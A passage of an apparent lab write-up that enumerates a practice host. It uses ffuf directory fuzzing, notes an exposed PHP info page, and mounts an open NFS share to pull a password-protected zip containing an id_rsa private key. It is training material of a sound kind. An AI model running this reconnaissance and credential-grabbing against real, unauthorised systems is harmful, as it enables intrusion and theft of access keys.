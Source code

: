### HTTP - Port 80/8080

- [http://192.168.31.130/](http://192.168.31.130/)
  - Bolt
  - `/var/www/html/`

![](.gitbook/assets/2024-07-14_12-15-03_621.png)

- [http://192.168.31.130:8080/](http://192.168.31.130:8080/)
  - PHP info page - information disclosure
  - `PHP Version 7.3.27-1~deb10u1`

![](.gitbook/assets/2024-07-14_12-14-47_620.png)

```bash
# Port 80
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.31.130/FUZZ

public [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 2ms]
src [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 4ms]
app [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 6ms]
vendor [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 1ms]
extensions [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 1ms]
server-status [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 2ms]

# Port 8080
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.31.130:8080/FUZZ

dev [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 3ms]
server-status [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 1ms]
```

- Navigate to each found directory
  - [http://192.168.31.130/app/](http://192.168.31.130/app/)
  - [http://192.168.31.130:8080/dev/](http://192.168.31.130:8080/dev/)

### NFS - Port 2049

```bash
showmount -e 192.168.31.130

/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```

```bash
sudo mkdir /mnt/dev
sudo mount -t nfs 192.168.31.130:/srv/nfs /mnt/dev

cd /mnt/dev
ls
sudo unzip save.zip
    Archive:  save.zip
    [save.zip] id_rsa password:

cp /mnt/dev/* ~/tcm/peh/dev
chmod 600 ~/tcm/peh/dev/id_rsa
```
